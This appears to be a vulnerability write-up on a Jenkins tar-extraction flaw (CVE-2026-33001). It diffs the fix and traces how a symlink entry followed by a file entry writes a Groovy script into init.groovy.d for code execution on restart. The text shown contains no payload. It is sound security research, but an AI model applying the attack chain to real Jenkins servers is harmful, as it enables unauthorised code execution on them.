







This article explores the technical details of [CVE-2026-33001](https://nvd.nist.gov/vuln/detail/CVE-2026-33001), a high-severity vulnerability in Jenkins 2.554 and earlier. The flaw lies in tar archive extraction, where a malicious archive with a symbolic link can write files to arbitrary locations on the controller.

{: .no_toc }

* TOC
{:toc}

## Introduction

Jenkins is a widely used CI/CD server with deep access to source code, credentials, and deployment pipelines, making it a high-value target in enterprise environments.

On March 18, 2026, CVE-2026-33001 was disclosed, a high-severity vulnerability in Jenkins 2.554 and earlier. The flaw lies in tar archive extraction, where a malicious archive with a symbolic link can write files to arbitrary locations on the controller.

An attacker with low privileges (Job/Configure) can exploit this to place a Groovy script in `JENKINS_HOME/init.groovy.d/`, leading to full code execution on restart.

This blog analyzes the vulnerability through patch diffing, traces the vulnerable code path, and demonstrates a working exploit.

## What is Jenkins ?

Jenkins is an open-source automation server. Its job is to take your code, run a series of steps on it — compile it, test it, package it, deploy it and report back. In the industry this is called CI/CD: Continuous Integration and Continuous Deployment. Jenkins has been around since 2011, it's free, and it's one of the most widely deployed CI/CD tools in the world. 

#### The Agent/Controller Architecture

This is the most important concept to understand before we look at any code, because the entire vulnerability exists at the boundary between two components: the **controller** and the **agent**.

 The Controller is the main Jenkins server. It:
  - Hosts the web UI at http://your-jenkins:8080
  - Stores all configuration, job history, and artifacts on disk in a directory called `JENKINS_HOME`
  - Schedules and coordinates builds
  - Manages security — who can do what

Agents (sometimes called nodes or workers) are separate machines that actually execute the build steps. When your pipeline runs sh 'mvn test', that shell command runs on an agent, not on the controller. Agents are disposable, they can be spun up and down, running on different machines, inside containers, in the cloud.

The two communicate over something called the Remoting channel, a persistent TCP connection over which Jenkins serializes Java objects and streams data back and forth. Think of it as a pipe between two JVM processes.

Here's what a typical build looks like:


This flow is exactly where our vulnerability lives. The agent packs workspace files into a tar archive and sends them to the controller. The controller extracts that tar into `JENKINS_HOME`.
We'll trace every step of this in detail later — but first, keep this picture in mind: an agent sends bytes, a controller extracts them, and the controller trusts what it receives.

#### What is JENKINS_HOME?

`JENKINS_HOME` is the directory where Jenkins stores all its configuration, job history, and artifacts. It is the heart of the Jenkins controller.

On a typical Linux install it's at `/var/lib/jenkins` or `/var/jenkins_home` inside Docker. Its structure looks like this:

```
JENKINS_HOME/
  ├── config.xml              ← main Jenkins configuration
  ├── credentials.xml         ← all stored secrets (encrypted)
  ├── secrets/                ← master key, encryption keys
  ├── plugins/                ← installed plugins (.hpi / .jpi files)
  ├── init.groovy.d/          ← ⚠️ Groovy scripts that run on startup
  ├── users/                  ← user account configs
  │   └── admin/
  │       └── config.xml      ← admin password hash lives here
  └── jobs/
      └── my-pipeline/
          └── builds/
              └── 42/
                  └── archive/   ← build artifacts land here
```
Most of these files are sensitive. But one directory is particularly dangerous from an attacker's perspective: `init.groovy.d/`.

Jenkins has a feature where on startup, it scans `JENKINS_HOME/init.groovy.d/` and executes every .groovy file it finds there. These scripts run with:
  - Full access to the Jenkins Java API
  - The OS permissions of the Jenkins process (often the jenkins user)
  - No sandbox restrictions, it's a raw GroovyShell

This is a legitimate feature, it lets administrators run initialization code when Jenkins starts. But it means that if an attacker can write a .groovy file into that directory, they get code execution on the controller on the next restart.

The relevant code is in GroovyHookScript.java:
```java
  File scriptD = new File(rootDir, "init.groovy.d");
  if (scriptD.isDirectory()) {
      File[] scripts = scriptD.listFiles(f -> f.getName().endsWith(".groovy"));
      Arrays.sort(scripts);
      for (File f : scripts) {
          execute(f);   // ← runs each .groovy file via GroovyShell
      }
  }
```
No authentication. No signature check. If the file exists and ends in .groovy? Run it.

This is the end goal of the exploit we're reversing, write a .groovy file into `init.groovy.d/`, restart Jenkins, get code execution. Now let's understand the concepts we need to trace how we get there.

## Key Concepts Before Diving Into Code

#### What is a tar archive?
A .tar file is not a compressed format, it's just a sequence of entries packed end to end, with each entry having a header followed by its data.

```
[ Header: name, type, size, permissions, linkname ][ Data bytes... ]
[ Header: name, type, size, permissions, linkname ][ Data bytes... ]
[ Header: name, type, size, permissions, linkname ][ Data bytes... ]
...
```

The type field in the header tells you what kind of entry this is. The ones that matter for this CVE:

  - 0 = regular file
  - 5 = directory
  - 2 = symbolic link

The linkname field only exists on symlink entries. It stores where the symlink points. It's just a string, it can be a relative path like `../config` or an absolute path like `/var/jenkins_home`. The tar format itself puts no restrictions on what this string can contain.

When you extract a tar with a SYMTYPE entry, the extractor is supposed to:
  1. Read the name field, this is where the symlink will be created
  2. Read the linkname field, this is what the symlink will point to
  3. Call the OS equivalent of `ln -s <linkname> <name>`

The operating system then creates that symlink on disk, again, with no restrictions on where linkname points. That's by design. Symlinks can point anywhere. The responsibility for validating this is entirely on the extractor. In Jenkins 2.554, that validation was incomplete.

#### Symbolic link and how OS resolves them

A symbolic link is a special file on the filesystem that acts as a pointer to another path. When any process tries to open, read, or write through a symlink, the OS transparently follows it to the real target.
```bash
$ ln -s /var/jenkins_home mylink
$ ls -la
lrwxrwxrwx  mylink -> /var/jenkins_home

$ echo "hello" > mylink/test.txt
# OS resolves: mylink → /var/jenkins_home
# Actual write: /var/jenkins_home/test.txt
```

That last point is the key behavior the exploit depends on. Writing to `mylink/test.txt` is identical to writing to `/var/jenkins_home/test.txt` from the OS's perspective. The kernel follows the symlink at the time of the write.

The critical thing to understand is when symlinks get resolved. 
The OS resolves symlinks when a process actually calls open() on the path, not when you construct the path string.

  - `new File(baseDir, "mylink/pwn.groovy")`  →  pure string operation,
                                                zero filesystem calls,
                                                no symlink resolution
  - writing a file to that path             →  kernel calls open(),
                                                follows mylink,
                                                lands at `/var/jenkins_home/pwn.groovy`

This gap between what a path string looks like and where the OS actually writes, is exactly what the check in `readFromTar()` fails to account for. It normalized the string and compared it. The kernel ignored the string and followed the symlink.

#### FilePath — Jenkins' File Abstraction

The last concept to understand before the code makes full sense is FilePath. When Jenkins needs to read or write a file, whether it's on the controller, on an agent, or somewhere remote, it doesn't use java.io.File directly. It uses `hudson.FilePath`.

FilePath wraps a path with an optional Remoting channel, a reference to the node where the file lives. When you call a method on a FilePath:

- If the channel is null, it operates locally
- If the channel is set, it serializes the operation and sends it to the remote node to execute there

```java
FilePath local = new FilePath(new File("/some/path"));
// channel = null → all operations run locally

FilePath remote = new FilePath(agentChannel, "/workspace/path");
// channel = agentChannel → operations serialize and run on the agent
```

With these concepts in hand, the vulnerable code path is going to make complete sense and more importantly, the reason it's vulnerable will be obvious the moment you see it.


## Installing Jenkins and Debugging Setup

Installing Jenkins is pretty straightforward. Just download the war file of the vulnerable version - [v2.554](https://updates.jenkins.io/download/war/2.554/jenkins.war) and run it using the following commands:

```bash
java -jar jenkins.war
```
OR for the purpose of debugging, we can run it using the following command:
```bash
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 -jar jenkins.war
```
Output:
```
Listening for transport dt_socket at address: 5005
Running from: /Users/avanthika/Work/research/java/cve_reversing/jenkins/jenkins.war
webroot: /Users/avanthika/.jenkins/war
2026-03-25 06:52:14.442+0000 [id=1]	INFO	winstone.Logger#logInternal: Beginning extraction from war file
2026-03-25 06:52:15.282+0000 [id=1]	WARNING	o.e.j.ee9.nested.ContextHandler#setContextPath: Empty contextPath
2026-03-25 06:52:15.318+0000 [id=1]	INFO	org.eclipse.jetty.server.Server#doStart: jetty-12.1.6; built: 2026-01-27T18:53:19.182Z; git: 88ca559572b1c8858b3c5684bb0293fa64e5e90f; jvm 21.0.5+9-LTS-239
2026-03-25 06:52:15.593+0000 [id=1]	INFO	o.e.j.e.w.StandardDescriptorProcessor#visitServlet: NO JSP Support for /, did not find org.eclipse.jetty.ee9.jsp.JettyJspServlet
```
Then browse to [http://localhost:8080](http://localhost:8080) and follow the setup wizard. 

You will be asked for an administrative password, the automatically generated password can be found from the jenkins log output OR

The command: `sudo cat ./.jenkins/secrets/initialAdminPassword` will print the password at console.

Jenkins ships as a WAR file, there's no source on disk. When IntelliJ connects to the running JVM, it can see all loaded classes via JDWP, but without source it shows decompiled bytecode with mangled variable names. We need the original source JAR to make debugging readable.
Pull the sources JAR from Jenkins' Maven repository. Run this from /tmp to avoid any project POM conflicts:

```bash
cd /tmp
mvn dependency:get \
  -Dartifact=org.jenkins-ci.main:jenkins-core:2.554:jar:sources \
  -DremoteRepositories=https://repo.jenkins-ci.org/public
```

This downloads `jenkins-core-2.554-sources.jar` into `/tmp/.m2/repository/...`. Now, open IntelliJ IDEA, create a new project, and add this JAR as a library dependency. You now have the original source code to debug.
Now attach it in IntelliJ:
- **File → Project Structure → Libraries → + → Java**
- Select the file from `/tmp/.m2/repository/org/jenkins-ci/main/jenkins-core/2.554/`
- Select `jenkins-core-2.554-sources.jar` -> OK

Navigate to `FilePath` with `Cmd+O` — the tab should now show `FilePath.java` with clean, readable source. You'll see unresolved symbol errors in the Problems panel — ignore them. IntelliJ is missing Jenkins' transitive dependencies but the source is attached and breakpoints will work fine against the live JVM.


In IntelliJ IDEA, you can attach a debugger to the process and set a breakpoint at the entry point of the application like below:
- Open IntelliJ IDEA and go to Run -> Edit Configurations
- Click on the + button and select Remote JVM Debug
- Set the port to 5005 and the host to localhost
- Click on OK



In FilePath.java, use Cmd+F to search for readFromTar. This is the method that handles all tar extraction on the controller side, every artifact archive operation passes through here.
Set a breakpoint on the entry of the extraction loop:
```java
while ((te = t.getNextEntry()) != null) {
```
While clicking Build now in later steps, the above breakpoint will be hit and you are ready to debug.



Note: You'll see a flood of unresolved symbol errors in the Problems panel in IntelliJ,ignore them. We only added jenkins-core as a library, not Jenkins' full dependency tree. The breakpoints will still work fine against the live JVM.

## Understanding the Patch

Now let's understand what the patch does, and then we can reason backwards to what the old code was doing wrong.

Here is the [fix commit](https://github.com/jenkinsci/jenkins/commit/6dc99937605d5bddfeaae43a4cd14c2571e23adc).
Looking into the patch, we can understand that the main changes are made in the FilePath.java file.

Let's look at the changes one by one:

The path traversal check[line 3055]: 


```diff
private static void readFromTar(String name, File baseDir, InputStream in, Charset filenamesEncoding) throws IOException {

+        final File absoluteBaseDir = baseDir.getAbsoluteFile();
+        final Path normalizedAbsoluteBaseDir = absoluteBaseDir.toPath().normalize();
        try (TarInputStream t = new TarInputStream(in, filenamesEncoding.name())) {
            TarEntry te;
            while ((te = t.getNextEntry()) != null) {
-                File f = new File(baseDir, te.getName());
-                if (!f.toPath().normalize().startsWith(baseDir.toPath())) {
-                   throw new IOException(
-                           "Tar " + name + " contains illegal file name that breaks out of the target directory: " + te.getName());
+               final String entryName = te.getName();
+                if (!ALLOW_REENTRY_PATH_TRAVERSAL) {
+                   if (new File(entryName).toPath().normalize().startsWith(Path.of(".."))) {
+                        // catch relative path that would escape and then enter the destination dir again, like `../../../var/jenkins_home/...`
+                         throw new IOException("Tar " + name + " contains entry that   escapes destination directory: " + entryName);
                    }
                }
```

In the vulnerable version: 
- `new File(baseDir, te.getName())` constructs the file path by combining the base directory and the entry name.
- `f.toPath().normalize()` normalizes the file path by removing any `.` or `..` components.
- `startsWith(baseDir.toPath())` checks if the normalized file path starts with the normalized base directory path.

So if a tar entry is named `workspace/output.txt`, it constructs `/jenkins/workspace/output.txt`, normalizes it (nothing to resolve), confirms it starts with `/jenkins/workspace` and the check passes, file gets written. Fine so far.

But here's where it breaks. If the archive first writes a **symlink**:
```
Entry 1: link  →  /etc/cron.d        (symlink entry in tar)
Entry 2: link/payload                 (regular file entry)
```
For entry 1 — the symlink itself, the path `baseDir/link` normalizes cleanly, starts with baseDir, check passes, symlink gets created on disk.

For entry 2 — `new File(baseDir, "link/payload")` constructs the string `/jenkins/workspace/link/payload`. Normalize it, no `..` to clean up, path string looks fine, starts with baseDir — check passes again.

But the string `/jenkins/workspace/link/payload` is not where the file actually gets written. When the JVM opens that path for writing, the OS resolves `link` to `/etc/cron.d` and writes the file to `/etc/cron.d/payload`.

In the patched version:

```diff

+                File f = new File(baseDir, entryName).getAbsoluteFile();
+                File parent = f.getParentFile();
+                if (!f.toPath().normalize().startsWith(normalizedAbsoluteBaseDir)) {
+                    throw new IOException("Tar " + name + " contains entry that escapes destination directory: " + entryName);
+                }

+                if (!ALLOW_UNTAR_SYMLINK_RESOLUTION) {
+                    File current = parent;
+                    while (current != null && !current.equals(absoluteBaseDir)) {
+                        if (Util.isSymlink(current)) {
+                            throw new IOException("Tar " + name + " attempts to write to file with symlink in path: " + entryName);
+                        }
+                        current = current.getParentFile();
                    }
                }

                if (te.isDirectory()) {
                    mkdirs(f);
                } else {
-                    File parent = f.getParentFile();
                    if (parent != null) mkdirs(parent);

                    if (te.isSymbolicLink()) {
                        new FilePath(f).symlinkTo(te.getLinkName(), TaskListener.NULL);
                    } else {
+                        if (!ALLOW_UNTAR_SYMLINK_RESOLUTION) {
+                            if (Util.isSymlink(f)) {
+                                throw new IOException("Tar '" + name + "' entry '" + entryName + "' would write through existing symlink: " + f);
+                            }
+                        }
```
- `getAbsoluteFile()` is called which forces the path to be absolute before normalization.
for example: `new File("workspace/link/payload").getAbsoluteFile()` returns `/jenkins/workspace/link/payload`
- The following part of the code is the main defense against the symlink attack:
```java
if (!ALLOW_UNTAR_SYMLINK_RESOLUTION) {
    File current = parent;
    while (current != null && !current.equals(absoluteBaseDir)) {
        if (Util.isSymlink(current)) {
            throw new IOException("Tar attempts to write to file with symlink in path: " + entryName);
        }
        current = current.getParentFile();
    }
}
```
- It walks every parent directory of the target file, checking if any of them are symlinks. If a symlink is found, it throws an exception.
- for example: `new File("/jenkins/workspace/link/payload").getParentFile()` returns `/jenkins/workspace/link`
 `new File("/jenkins/workspace/link").getParentFile()` returns `/jenkins/workspace`
 `new File("/jenkins/workspace").getParentFile()` returns `/jenkins`
 `new File("/jenkins").getParentFile()` returns `/`

If there is an entry like `link/payload` in the tar file, and `link` is a symlink to `/etc/cron.d` (on a Linux Jenkins controller):

- `f` becomes `/jenkins/workspace/link/payload`
- `parent` becomes `/jenkins/workspace/link`
- The loop starts:
    - `current` is `/jenkins/workspace/link`. `Util.isSymlink("/jenkins/workspace/link")` returns true.
    - The loop breaks and throws `IOException` immediately.
- The file is never written to `/etc/cron.d/payload`.   

The above checks only if the parent directories are symlinks. It does not check if the file itself is a symlink.
```java
if (!ALLOW_UNTAR_SYMLINK_RESOLUTION) {
    if (Util.isSymlink(f)) {
        throw new IOException("Tar entry would write through existing symlink: " + f);
    }
}
```
- The above checks if the file itself is a symlink. If it is, it throws an exception.

Note: `ALLOW_UNTAR_SYMLINK_RESOLUTION` and `ALLOW_REENTRY_PATH_TRAVERSAL` are JVM system properties in the FilePath class, both defaulting to false keeping the protections active. Jenkins admins can override them at startup via -D flags, or flip them live at runtime through the Script Console without a restart.

So, as we understood the patch, let's try to exploit it.    

## Tracing the Flow: From Tar Entry to Filesystem Write

A plugin called **File Operations Plugin** or any plugin that exposes tar extraction as a pipeline step is a prerequisite for this attack. 

The vulnerable method `readFromTar()` lives in Jenkins core's `FilePath.java` and is marked private. A low-privilege user with only Job/Configure permission cannot call it directly. What they can do is write a Pipeline script, and that's where the plugin comes in. The `fileUnTarOperation` step provided by the File Operations plugin is a thin wrapper that accepts a file path from the pipeline and calls Jenkins core's `FilePath.untarFrom()` on it, which in turn calls `readFromTar()`. Without a plugin (or similar mechanism) that bridges pipeline scripts to this extraction code, there would be no way for an unprivileged user to reach the vulnerable path at all.

In other words: the vulnerability is in Jenkins core, but **the attack surface is opened by any installed plugin that exposes tar extraction as a pipeline step.**

To understand exactly how the symlink attack works, let's walk through what happens inside Jenkins when the `fileUnTarOperation` pipeline step extracts the malicious tar file. We will trace the flow from the entry point all the way to the unsafe file write.

### Step 1: The Pipeline step triggers extraction

The `fileUnTarOperation` step (from the File Operations plugin) ultimately calls Jenkins core's `FilePath.untarFrom()` method to perform the actual extraction.

```java
//FilePath.java:901
public void untarFrom(InputStream _in, final TarCompression compression) throws IOException, InterruptedException {
    try (_in) {
        final InputStream in = new RemoteInputStream(_in, Flag.GREEDY);
        act(new UntarFrom(compression, in));
    }
}
```
`act()` dispatches this to the appropriate node (agent or controller) via a `MasterToSlaveFileCallable`. The internal `UntarFrom` callable passes execution to `readFromTar()`:
```java
//FilePath.java:917-921
@Override
public Void invoke(File dir, VirtualChannel channel) throws IOException {
    readFromTar("input stream", dir, compression.extract(in));
    return null;
}
```
The same routing happens when using `FilePath.untar()` (line 604) via `UntarLocal` (line 645) or `UntarRemote` (line 627),  all three entry points funnel into the same `readFromTar()`.

### Step 2: readFromTar() — the vulnerable logic

```java
// FilePath.java:3055-3089
private static void readFromTar(String name, File baseDir, InputStream in, Charset filenamesEncoding) throws IOException {
    try (TarInputStream t = new TarInputStream(in, filenamesEncoding.name())) {
        TarEntry te;
        while ((te = t.getNextEntry()) != null) {
            File f = new File(baseDir, te.getName());           // [1] Build path
            if (!f.toPath().normalize().startsWith(baseDir.toPath())) {  // [2] Path check
                throw new IOException(
                    "Tar " + name + " contains illegal file name that breaks out of the target directory: " + te.getName());
            }
            if (te.isDirectory()) {
                mkdirs(f);
            } else {
                File parent = f.getParentFile();
                if (parent != null) mkdirs(parent);

                if (te.isSymbolicLink()) {
                    new FilePath(f).symlinkTo(te.getLinkName(), TaskListener.NULL);  // [3] Symlink created
                } else {
                    IOUtils.copy(t, f);   // [4] File written
                    // ...chmod, timestamps...
                }
            }
        }
    }
}
```
The loop processes each tar entry in order. This ordering is exactly what makes the attack work.

### Step 3: Processing Entry 1 — the symlink

The tar's first entry is a symlink:
- Name: root_link
- Type: SYMTYPE
- Link target: /var/jenkins_home (or wherever JENKINS_HOME is)

[1] `File f = new File(baseDir, "root_link")` -> resolves to e.g. /workspace/root_link

[2] The path check: `f.toPath().normalize()` -> `/workspace/root_link`. This starts with `/workspace` (baseDir) ✓ — check passes.

`normalize()` only collapses `..` sequences in the string. It does not follow symbolic links on disk, so it can't know that `root_link` is about to become a pointer out of the workspace.

[3] `new FilePath(f).symlinkTo(te.getLinkName(), TaskListener.NULL)` is called with the symlink's target string directly from the tar entry.

`symlinkTo()` (FilePath.java:801) dispatches to `SymlinkTo.invoke()` (FilePath.java:817):

```java

public Void invoke(File f, VirtualChannel channel) throws IOException, InterruptedException {
    Util.createSymlink(f.getParentFile(), target, f.getName(), listener);
    return null;
}

```
Which calls `Util.createSymlink()` (Util.java:1348):

```java
public static void createSymlink(@NonNull File baseDir, @NonNull String targetPath,
          @NonNull String symlinkPath, @NonNull TaskListener listener) throws InterruptedException {
      File fileForSymlink = new File(baseDir, symlinkPath);
      Path pathForSymlink = fileToPath(fileForSymlink);
      Path target = Paths.get(targetPath, ...);          // targetPath is attacker-controlled
      // ...
      Files.createSymbolicLink(pathForSymlink, target);  // [Util.java:1364]
  }
```
`targetPath` is the raw string from the tar entry, the attacker controls it completely. There is no check that it points within baseDir. The OS-level symlink is now on disk:

`/workspace/root_link`  →  `/var/jenkins_home`

###  Step 4: Processing Entry 2 — the file written through the symlink

The tar's second entry is a regular file:
- Name: root_link/init.groovy.d/exploit.groovy
- Type: REGTYPE
- Content: the Groovy payload

[1] `File f = new File(baseDir, "root_link/init.groovy.d/exploit.groovy")` -> `/workspace/root_link/init.groovy.d/exploit.groovy`

[2] The path check again: `f.toPath().normalize()` -> `/workspace/root_link/init.groovy.d/exploit.groovy`. Still starts with `/workspace` — check passes again.

`normalize()` sees a clean path with no `..` sequences. It has no idea that `/workspace/root_link` is a symlink.

[3] `te.isSymbolicLink()` is false — this is a regular file, so we fall to [4].

[4] `IOUtils.copy(t, f)` (FilePath.java:3074) is called. Inside `IOUtils.java:51`:
```java
  public static void copy(InputStream in, File out) throws IOException {
      try (OutputStream fos = Files.newOutputStream(out.toPath())) {
          org.apache.commons.io.IOUtils.copy(in, fos);
      }
  }
```

`Files.newOutputStream(out.toPath())` with no `LinkOption.NOFOLLOW_LINKS` opens the file for writing by following every symlink component in the path. The kernel resolves `/workspace/root_link` to `/var/jenkins_home`, and the final write target becomes:

`/var/jenkins_home/init.groovy.d/exploit.groovy`

